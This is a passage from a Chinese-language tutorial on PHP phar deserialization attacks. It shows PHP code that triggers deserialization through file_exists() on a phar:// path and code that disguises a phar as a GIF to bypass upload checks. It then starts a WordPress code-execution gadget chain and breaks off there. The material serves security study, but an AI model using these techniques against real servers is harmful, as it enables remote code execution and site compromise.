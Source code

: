 http://www.lmxspace.com/2018/11/07/%E9%87%8D%E6%96%B0%E8%AE%A4%E8%AF%86%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-Phar/

phar_test2.php

<?php 
    class TestObject {
        public function __destruct() {
            echo 'Destruct called';
        }
    }

    $filename = 'phar://phar.phar/a_random_string';
    file_exists($filename);
    //......
 ?>
当文件系统函数的参数可控时，我们可以在不调用unserialize()的情况下进行反序列化操作，一些之前看起来“人畜无害”的函数也变得“暗藏杀机”，极大的拓展了攻击面。

2.3 将phar伪造成其他格式的文件
在前面分析phar的文件结构时可能会注意到，php识别phar文件是通过其文件头的stub，更确切一点来说是__HALT_COMPILER();?>这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。

<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>


采用这种方法可以绕过很大一部分上传检测。

0x03 实际利用
3.1 利用条件
任何漏洞或攻击手法不能实际利用，都是纸上谈兵。在利用之前，先来看一下这种攻击的利用条件。

phar文件要能够上传到服务器端。
要有可用的魔术方法作为“跳板”。
文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤。
3.2 wordpress
wordpress是网络上最广泛使用的cms，这个漏洞在2017年2月份就报告给了官方，但至今仍未修补。之前的任意文件删除漏洞也是出现在这部分代码中，同样没有修补。根据利用条件，我们先要构造phar文件。

首先寻找能够执行任意代码的类方法：

wp-includes/Requests/Utility/FilteredIterator.php

class Requests_Utility_FilteredIterator extends ArrayIterator {
    /**
    * Callback to run as a filter
    *
    * @var callable
    */
    protected $callback;
    ...
    public function current() {
        $value = parent::current();
        $value = call_user_func($this->callback, $value);
        return $value;
    }
}